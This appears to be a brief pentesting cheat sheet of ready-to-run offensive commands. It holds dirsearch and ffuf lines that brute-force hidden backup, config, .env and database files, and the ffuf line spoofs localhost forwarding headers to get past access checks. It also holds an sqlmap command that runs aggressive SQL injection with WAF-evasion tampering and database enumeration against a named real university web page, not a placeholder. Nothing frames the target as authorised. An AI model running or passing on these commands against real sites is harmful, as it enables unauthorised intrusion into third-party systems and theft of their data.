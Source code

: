 ## Dir Buster

dirsearch -u https://example.com -e php,cgi,htm,html,shtm,shtml,js,txt,bak,zip,old,conf,log,pl,asp,aspx,jsp,sql,db,sqlite,mdb,tar,gz,7z,rar,json,xml,yml,yaml,ini,java,py,rb,php3,php4,php5 --random-agent --recursive -R 3 -t 20 --exclude-status=404 --follow-redirects --delay=0.1

ffuf -w seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u https://example.com/FUZZ -fc 400,401,402,403,404,429,500,501,502,503 -recursion -recursion-depth 2 -e .html,.php,.txt,.pdf,.js,.css,.zip,.bak,.old,.log,.json,.xml,.config,.env,.asp,.aspx,.jsp,.gz,.tar,.sql,.db -ac -c -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0" -H "X-Forwarded-For: 127.0.0.1" -H "X-Originating-IP: 127.0.0.1" -H "X-Forwarded-Host: localhost" -t 100 -r -o results.json

SQL Map:sqlmap -u 
'https://cutm.ac.in/payu/skill/index.php?id=34' --batch --dbs --threads=5 --random-agent --risk=3 --level=5 --tamper=space2comment -v 3 --dbms  MySQL

